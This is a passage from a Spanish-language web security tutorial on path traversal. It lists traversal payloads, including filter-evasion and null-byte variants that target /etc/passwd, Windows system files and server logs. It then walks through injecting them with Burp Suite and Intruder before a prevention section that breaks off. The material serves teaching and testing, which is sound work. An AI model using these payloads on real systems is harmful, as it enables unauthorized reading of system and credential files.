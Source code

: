 ✅ Windows:

```
..\\..\\..\\..\\Windows\\win.ini
..\\..\\..\\..\\boot.ini
```

✅ Variantes para evadir filtros:

```
....//....//....//etc/passwd
..%2f..%2f..%2f..%2fetc/passwd
```

✅ Con null byte (algunos lenguajes antiguos):

```
../../../../etc/passwd%00
```

---

### ✅ 7️⃣ Práctica con Burp Suite

✅ Abre Burp Suite.

✅ Configura navegador para proxy en 127.0.0.1:8080.

✅ Intercepta la petición vulnerable.

✅ Modifica el parámetro `page` con tu payload:

```
../../../../etc/passwd
```

✅ Envía y analiza la respuesta.

---

✅ Puedes automatizar con Intruder:

- Define el parámetro vulnerable.
- Usa payload list:

  ```
  ../../../../etc/passwd
  ../../../../etc/hosts
  ../../../../var/log/apache2/error.log
  ```

- Ejecuta ataque.

---

### ✅ 8️⃣ Cómo prevenir Path Traversal

✅ Validar input:

✔️ Permitir solo nombres válidos:
